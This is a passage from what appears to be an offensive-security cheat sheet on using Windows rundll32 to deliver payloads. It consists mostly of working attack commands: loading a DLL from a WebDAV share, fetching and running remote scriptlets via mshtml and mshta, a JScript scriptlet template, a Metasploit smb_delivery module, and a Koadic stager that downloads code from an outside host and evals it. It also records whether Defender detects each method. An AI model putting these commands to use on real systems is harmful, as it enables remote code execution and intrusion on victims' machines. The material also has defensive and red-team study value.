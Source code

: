 **Detected by defender**

## **Rundll32**

[**Dll hello world example**](https://github.com/carterjones/hello-world-dll)

```bash
rundll32 \\webdavserver\folder\payload.dll,entrypoint
```

Process performing network call: **svchost.exe**  
Payload written on disk: **WebDAV client local cache**

```bash
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();
```

Process performing network call: **rundll32.exe**  
Payload written on disk: **IE local cache**

**Detected by defender**

**Rundll32 - sct**

```bash
<?XML version="1.0"?>
<!-- rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";o=GetObject("script:http://webserver/scriplet.sct");window.close();  -->
<!-- mshta vbscript:Close(Execute("GetObject(""script:http://webserver/scriplet.sct"")")) -->
<scriptlet>
<public>
</public>
<script language="JScript">
<![CDATA[
    var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
]]>
</script>
</scriptlet>
```

**Extracted from** [**here**](https://gist.github.com/Arno0x/e472f58f3f9c8c0c941c83c58f254e17)

#### **Rundll32 - Metasploit**

```bash
use windows/smb/smb_delivery
run
#You will be given the command to run in the victim: rundll32.exe \\10.2.0.5\Iwvc\test.dll,0
```

**Rundll32 - Koadic**

```bash
use stager/js/rundll32_js
set SRVHOST 192.168.1.107
set ENDPOINT sales
run
#Koadic will tell you what you need to execute inside the victim, it will be something like:
rundll32.exe javascript:"\..\mshtml, RunHTMLApplication ";x=new%20ActiveXObject("Msxml2.ServerXMLHTTP.6.0");x.open("GET","http://10.2.0.5:9997/ownmG",false);x.send();eval(x.responseText);window.close();
```
